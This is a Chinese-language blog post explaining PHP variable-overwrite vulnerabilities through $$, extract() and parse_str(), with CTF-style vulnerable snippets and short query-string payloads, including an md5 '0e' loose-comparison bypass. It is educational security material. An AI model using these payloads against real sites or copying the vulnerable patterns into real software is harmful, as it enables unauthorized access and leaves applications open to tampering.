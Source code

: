 # php变量覆盖




> 可以用自定义的参数值替换原有变量值的情况称为变量覆盖漏洞



## 场景

- $$使用不当
- extract()函数使用不当
- parse_str()函数使用不当
- import_request_variables()使用不当
- 开启了全局变量注册
- ... ... 





## 1. $$导致的变量覆盖

> 经常在foreach中出现



使用foreach来遍历数组中的值，然后再将获取到的数组键名作为变量，数组中的键值作为变量的值

```php
<?php
    
//?name=test
//output:string(4) “name” string(4) “test” string(4) “test” test

$name='thinking';

foreach ($_GET as $key => $value)
    $$key = $value;
    var_dump($key);
    var_dump($value);
    var_dump($$key);

echo $name;

?>

```

例题：

```php

<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")

    die("BugsBunnyCTF is here :p…");

if ( !isset($_POST["flag"]) )
    die($_403);

foreach ($_GET as $key => $value)
	key = value;

foreach ($_POST as $key => $value)
    $$key = $value;

	if ( $_POST["flag"] !== $flag )
		die($_403);

	echo "This is your flag : ". $flag . "\n";

	die($_200);

?>
```







## 2. extract()函数导致的变量覆盖

**extract()** 该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。 

**语法：** `extract(array,extract_rules,prefix)`

```bash
extract 有三种形式可能导致变量覆盖:
第一种是第二个参数为EXTR_OVERWRITE,他表示如果有冲突，覆盖原有的变量。
第二种情况是只传入第一个参数，默认为EXTR_OVERWRITE模式。
第三种是第二个参数为EXTR_IF_EXISTS，他表示在当前符号表中已有同名变量时，覆盖它们的值,其他的都不注册新变量.
```



例题1

```php
<?php
$flag = 'xxx';
extract($_GET);

if (isset($gift)) {
   $content = trim(file_get_contents($flag));
   if ($gift == $content) {
       echo 'hctf{…}';
   } else {
        echo 'Oh..';
   }
} 
?>

    
    
//GET请求 ?flag=&gift=，extract()会将$flag和$gift的值覆盖了，将变量的值设置为空或者不存在的文件就满足$gift == $content。
//payload:
?flag=&gift=
```



例题2

```php
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
      <?php
        extract($_POST);
        if ($pass == $thepassword_123) { ?>
            <div class=”alert alert-success”>
                <code><?php echo $theflag; ?></code>
            </div>
        <?php } ?>
    <?php } ?>
    
    
//extract($_POST)会将POST的数据中的键名和键值转换为相应的变量名和变量值，利用这个覆盖$pass和$thepassword_123变量的值，从而满足$pass == $thepassword_123这个条件。
    
// POST Payload:
//pass=&thepassword_123=    
```











## 3. parse_str函数导致的变量覆盖

parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 

语法：`parse_str(string,array)`



例题1：

```php
<?php
error_reporting(0);

if (empty($_GET['id'])) {
    show_source(__FILE__);
    die();

} else {
    include ('flag.php');
    $a = "www.OPENCTF.com";
    $id = $_GET['id'];
    @parse_str($id);
    if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
        echo $flag;
    } else {
        exit('其实很简单其实并不难！');
    }
}
?> 
    
    
//0e123会被当做科学计数法，0 * 10 x 123。所以需要找到一个字符串md5后的结果是0e开头后面都是数字的，如，240610708，s878926199a  
//利用php弱语言特性,
    
//使用GET请求id=a[0]=240610708，这样会将a[0]的值覆盖为240610708，然后经过md5后得到
0e462097431906509019562988736854
与md5(‘QNKCDZO’)的结果0e830400451993494058024219903391比较都是0
所以相等，满足条件，得到flag。
最终PAYLOAD： 
GET DATA: 
?id=a[0]=s878926199a 
or 
?id=a[0]=240610708
```

















---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/php%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96/  


